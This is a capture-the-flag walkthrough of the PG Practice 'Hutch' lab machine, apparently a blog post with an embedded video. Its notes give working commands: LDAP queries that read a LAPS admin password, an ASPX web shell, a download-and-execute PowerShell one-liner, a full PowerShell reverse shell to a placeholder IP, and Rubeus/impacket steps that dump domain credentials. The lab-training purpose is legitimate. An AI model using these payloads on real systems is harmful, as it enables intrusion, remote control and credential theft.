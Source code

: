 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/WMDLdrKbaSk/0.jpg
layout: post
media_subpath: /assets/posts/2021-11-20-ldap-webdav-laps-unintended-solutions-hutch-pg-practice
tags:
- pg practice
- rubeus
- webdav
- windows
title: LDAP, WebDAV, LAPS & Unintended Solutions - Hutch @ PG Practice
---
```


We are solving Hutch from PG-Practice. For user, we will get credentials from LDAP & use them to upload a web shell via Webdav. For root, we will read a LAPS password for the intended way & then explore other methods.

{% youtube WMDLdrKbaSk %}

## Notes

**LDAP**

```
// list all attributes
ldapsearch -x -b "dc=hutch,dc=offsec" "*" -h hutch.pg

// query LAPS password
ldapsearch -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -o ldif-wrap=no -b 'dc=hutch,dc=offsec' -h hutch.pg "(ms-MCS-AdmPwd=*)" ms-Mcs-AdmPwd
```

**ASPX Runner**

```
iex(iwr http://ip/run.txt -usebasicparsing)
```

```aspx
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<script Language="c#" runat="server">

void Page_Load(object sender, EventArgs e){
 ProcessStartInfo si = new ProcessStartInfo();
 si.FileName = "powershell.exe";
 si.Arguments = "-enc ...";
 Process p = Process.Start(si);
 p.WaitForExit();
}
</script>
```

**Run.txt**

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ip",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ">_ ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

**Rubeus TGTDeleg**

```
iwr http://ip/Rubeus.exe -outfile Rubeus.exe
.\Rubeus.exe tgtdeleg /nowrap
// copy ticket over & base64 decode, then:
python3 /opt/impacket/examples/ticketConverter.py m.kirbi m.ccache
export KRB5CCNAME=`pwd`/m.ccache
sudo ntpdate -u hutch.pg
python3 /opt/impacket/examples/secretsdump.py HUTCH.OFFSEC/HUTCHDC\$@hutchdc.hutch.offsec -dc-ip hutch.offsec -no-pass -k
```